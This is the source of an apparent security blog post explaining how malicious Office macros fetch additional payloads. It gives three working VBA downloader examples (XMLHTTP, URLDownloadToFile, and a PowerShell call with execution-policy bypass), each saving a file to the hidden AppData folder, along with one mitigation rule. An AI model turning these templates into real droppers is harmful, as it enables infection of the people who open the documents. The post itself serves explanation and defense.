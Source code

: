 ```yaml
---
layout: post
title: Office Docs, The Macro View
categories: [Malware, Macro's, VBA]
excerpt: Attackers often use Office Macros as a means to infect computers and download additional malicious code. In this post I'll explore the ways an attacker can use macros to download more content and we'll walk through some sample code.
---
```

(Estimated Reading Time: 7 minutes)

- [Why Attackers Use Office Macros](#why-attackers-use-office-macros)
- [Approaches To Downloading More Malicious Code](#approaches-to-downloading-more-malicious-code)


## Why Attackers Use Office Macros

We all know Office Macro’s can be dangerous and can be used by attackers to download additional malware. In this blog post, I wanted to explorer the basic ways that Macro’s can be used to download addition code by looking at some basic sample code.  

Macros have become very popular in malware because they are easy to create and can be created into phishing messages to convince the user to run the macro. Despite security warning; the user will almost always click, “Enable Content” 

![MacroWarning](/images/macro_warning.PNG)

Microsoft Word, Excel, Publisher, and Power Point are all office document files that support including Visual Basic Applications (VBA) code as Macros. Microsoft hosts some good documentation here on getting started with [Macros in Office](https://docs.microsoft.com/en-us/office/vba/library-reference/concepts/getting-started-with-vba-in-office 
).  

## Approaches To Downloading More Malicious Code

There are three (maybe four) primary methods to download files using VBA Macros. The first is an XML HTTP Request (XHR), which is a method of fetching website data dynamically without switching pages. Below is a very simple example of a VBA script to download the famous google logo image as a png and store it in the users home directory in a normally hidden folder, call AppData. An attack could easily replace the image url here in this example with a malicious executable. 

```
Sub Download_File_XHR()

Dim myURL As String
myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

Dim HttpReq As Object
Set HttpReq = CreateObject("Microsoft.XMLHTTP")
HttpReq.Open "GET", myURL, False
HttpReq.send

Dim output As String
output = Environ("AppData")

If HttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write HttpReq.responseBody
    oStream.SaveToFile output + "\google_image.png", 2
    oStream.Close
End If

End Sub 
```

The second method involves importing a specific features from a Windows API, and then calling that API. In this case we are importing the function URLDownloadToFile from the urlmon.dll library. This code will have the same effect as above and will download the google logo png to the users AppData folder.

```
Declare PtrSafe Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
(ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, _
ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long

Sub Download_File_API()
    Dim myURL As String
    myURL = "https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png"

    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"
    
    Dim returnValue As Long
    returnValue = URLDownloadToFile(0, myURL, output, 0, 0)

End Sub
```

The third method involves calling out to Powershell and using another program (in this case PowerShell) to download the desired file. Like the two example above this code has the same end result of downloading the google logo into the AppData folder. In this example however you can clearly see PowerShell pop up and know that another process has been started. Attackers will get fancier then this code and will often Encode parameters to hide URL's and hide windows. The Windows 10, Attack Surface Reduction rule for [**Block all Office applications from creating child processes**](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction#block-all-office-applications-from-creating-child-processes) would mitigate the below example as it would prevent Office from launching PowerShell.

```
Sub Download_File_Powershell()
    Dim output As String
    output = Environ("AppData")
    output = output + "\google_image.png"

    Dim psCode As String
    psCode = "invoke-webrequest -Uri 'https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png' -OutFile " + output + " -UseDefaultCredentials"

    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run ("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -executionpolicy bypass -command " + psCode)

End Sub
```

I mentioned a forth method which could be using Excel 4.0 (XL4) macros. This is a legacy feature of Excel but attackers have figured out how to leverage it this feature to Download additional files as well. I'm not going to give an example of this method today but will link to this article where you could [read more about this technique](https://www.lastline.com/labsblog/evolution-of-excel-4-0-macro-weaponization/).

Lastly, just a note of caution, Even though the above code is totally benign and not malicious my AV software decide to protect me from my own non-malicious example code.  When I saved the above samples into an Example.xlsm file Windows Defender saved me from myself. 

![AVProtection](/images/macro_example_triggers_av.PNG)
